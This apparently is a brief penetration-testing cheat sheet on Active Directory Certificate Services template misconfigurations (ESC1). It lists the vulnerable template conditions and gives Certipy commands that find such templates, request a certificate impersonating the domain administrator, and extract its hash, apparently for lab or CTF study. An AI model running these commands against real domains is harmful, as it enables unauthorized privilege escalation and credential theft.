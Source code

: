 # ADCS Template Misconfigurations

# Intro
Templates, by default, are not vulnerable but made vulnerable by human-made misconfigurations. When writing this blog, these misconfigurations are divided into 11 parts (ESC1-ESC11).     
By exploiting this type of vulnerable Template, a domain user can escalate his privileges to that of a domain administrator in a Windows Active Directory Environment. 

# ESC1
## Overview
- The template must have **Enrollment Rights** set, so that the attacker can request a new one from the Certificate Authority.
- No manager approval is required
- **Enrollee Supplies Subject** is set to **True** so that we can supply *SAN*.
- **Extended Key Usage:** Client Authentication means the generated certificate based on this Template can authenticate to the domain computers. 


## Tools Needed
- [Certipy](https://github.com/ly4k/Certipy)


## Exploitation
```sh
# Find vulnerable templates
certipy find -u <username> -p <password> -target <ip> -text -stdout -vulnerable

# Request certificate
certipy req -u <username> -p <password> -target <ip> -upn administrator@domain.local -ca <cert_auth> -template <template_nmae>

# Get hash from the cerificate
certipy auth -pfx <certificate>
```

# References
- [https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/](https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/)
- [https://0xdf.gitlab.io/2023/06/17/htb-escape.html#abuse-template](https://0xdf.gitlab.io/2023/06/17/htb-escape.html#abuse-template)